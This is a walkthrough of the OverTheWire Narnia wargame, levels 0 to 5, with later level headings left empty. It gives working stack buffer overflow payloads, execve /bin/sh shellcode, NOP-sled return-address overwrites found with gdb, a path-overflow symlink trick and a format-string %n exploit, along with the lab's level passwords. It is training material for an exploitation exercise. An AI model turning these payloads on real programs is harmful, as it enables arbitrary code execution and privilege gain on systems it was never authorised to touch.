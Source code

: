 # [The Narnia wargame](https://overthewire.org/wargames/narnia/)
host: [narnia.labs.overthewire.org](narnia.labs.overthewire.org)  
port: 2226  
username: narnia<level>  
start password: narnia0  
### login via ssh
```
ssh narnia<level>@narnia.labs.overthewire.org -p 2226
```

### level 0 -> 1
Simple buffer overflow
```shell
narnia0@narnia:/narnia$ (printf 'aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde';cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
**password:**  
efeidiedae

### level 1 -> 2
We need to set environment variable named "EGG" to shellcode the program will run  
I use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode to open shell as narnaia1
```shell
narnia1@narnia:/narnia$ export EGG=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
**password:**  
nairiepecu
  
### level 2 -> 3
There is unsafe copy to buffer, we can use this to set return address to run our shellcode.
First of all we need to find what offset the return address, we will use gdb with breakpoint before the ret command.
```shell
narnia2@narnia:/narnia$ gdb -q ./narnia2
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804844b <+0>:     push   %ebp
   0x0804844c <+1>:     mov    %esp,%ebp
      ...
   0x08048497 <+76>:    mov    $0x0,%eax
   0x0804849c <+81>:    leave                 <- we will put breakpoint her
   0x0804849d <+82>:    ret
End of assembler dump.
(gdb) b *0x0804849c
Breakpoint 1 at 0x804849c
(gdb) r $(python -c "print('A'*132+'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*132+'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()                         <- the four 'B' override the return address
```
Now lets create the payload, it will be in this format:  
`(A series of NOP instructions(0x90)) (Shellcode) (Overridden return address)`  
the return address will jump to address just before the shellcode.  
I use the [same](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode(25 bytes) as in the previous level.  
We just need to know the address before the shellcode:  
```shell
(gdb) r $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python -c "print('A'*(132-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + 'B'*4)")

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/150wx $esp
0xffffd640:     0x00000000      0xffffd6d4      0xffffd6e0      0x00000000
0xffffd650:     0x00000000      0x00000000      0xf7fc5000      0xf7ffdc0c
...
0xffffd7f0:     0x9e797a0d      0x9908446a      0x695d19dc      0x00363836
0xffffd800:     0x6e2f0000      0x696e7261      0x616e2f61      0x61696e72
0xffffd810:     0x41410032      0x41414141      0x41414141      0x41414141          <- the 'A's start somewhere here
0xffffd820:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd830:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd840:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd850:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd860:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd870:     0x41414141      0x41414141      0x41414141      0x50c03141          <- here the shellcode start
0xffffd880:     0x732f2f68      0x622f6868      0xe3896e69      0xe1895350
0xffffd890:     0x0bb0c289      0x424280cd
```
So, let choose 0xffffd870, now use the payload!
```shell
narnia2@narnia:/narnia$ ./narnia2 $(python -c "print('\x90'*107 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x70\xd8\xff\xff')")
$ cat /etc/narnia_pass/narnia3
vaequeezee
```
  
**password:**  
vaequeezee
                                                                                       
### level 3 -> 4
Their is unsafe copy from argv[1] to ifile, so we can overflow and get into ofile  
We need to give the program path that serve as somthing we want to read and also serve as payload that pushed to 'ofile' and serve as output file we can read. The path will be in this format:  
`/tmp/(some padding)/tmp/result`  
`/tmp/result` will serve as output file and `/tmp/(padding)/tmp/result` as link to password (`/etc/narnia_pass/narnia4`)  
Therefore the program will read all data from `/tmp/<padding>/tmp/result` and insead of write it to /dev/null he will write it to `/tmp/result and we can read it.  
I create [this](https://gist.github.com/bom2013/919a78a2dcb44689d37587bedb43be49) script in some folder inside /tmp/ and run it
```shell
narnia3@narnia:/tmp/qwert$ ./solve.sh
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/result to a safer place... (/tmp/result)
thaenohtai
(.PT narnia3@narnia:/tmp/qwert$
```
**password:**  
thaenohtai
  
### level 4 -> 5
This is actually same as level 2, all the things in the middle of the program isn't importent, what important is the unsafe copy from argv[1] to the buffer.  
We will create same payload(NOPs + shellcode + return address that jump to the middle of the NOPs)  
The steps of preparing the payload using gdb:   
1. Find offset to override the return address - 264 bytes  
2. Find some address in the middle of the NOPs - 0xffffd880
3. Get shellcode - [same](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode
4. Create the full payload - ```'\x90'*239 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x80\xd8\xff\xff'```
```shell
narnia4@narnia:/narnia$ ./narnia4 $(python -c "print('\x90'*239 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x80\xd8\xff\xff')")
$ cat /etc/narnia_pass/narnia5
faimahchiy
```
**password:**  
faimahchiy

### level 5 -> 6
There is unsafe use of snprintf(use without string format):
```c
snprintf(buffer, sizeof buffer, argv[1]);
```
this makes the program vulnerable to a [string format attack](https://owasp.org/www-community/attacks/Format_string_attack).  
Let's try to use string format to make sure the code is vulnerable to this attack:  
```shell
narnia5@narnia:/narnia$ ./narnia5 %x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000] (8)
i = 1 (0xffffd6e0)
```
Ok, it's vulnerable, now lets create the exploit.  
(I use [this](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf) wonderful paper to learn about this type of attack and to create the exploit)  
We want to use some string format that will allow us to change the value of 'i', the string will be in this format:  
`(address of i)(some padding to extend the string size to 500)('%n' to write 500 to the address)`  
the actual implementation is:  
1. Address of 'i' - `\xe0\xd6\xff\xff`
2. Padding - `%496x`
3. Write character - `%1$n`  (I use the [parameter field](https://en.wikipedia.org/wiki/Printf_format_string#Format_placeholder_specification) (`1$`) to specifie the parameter to write to (the address of i), without this the `%x` will use the address and the %n will not have it)  
  
Lets use this:  
```shell
narnia5@narnia:/narnia$ ./narnia5 $(python -c "print('\xe0\xd6\xff\xff')")%496x%1\$n
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
neezocaeng
```
**password:**
neezocaeng

### level 6 -> 7

**password:**


### level 7 -> 8

**password:**


### level 8 -> 9

**password:**

